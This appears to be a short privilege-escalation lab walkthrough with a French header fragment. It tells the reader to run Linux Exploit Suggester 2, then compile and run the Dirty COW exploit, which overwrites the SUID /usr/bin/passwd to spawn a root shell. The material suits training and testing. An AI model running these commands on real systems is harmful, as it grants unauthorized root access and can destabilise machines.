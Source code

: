 # Kernel Version

puis cherche une exploit

\-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.\
Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:\
`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`\
The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).\
Compile the code and run it (note that it may take several minutes to complete):\
`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w`\
`./c0w`\
Once the exploit completes, run /usr/bin/passwd to gain a root shell:\
`/usr/bin/passwd`
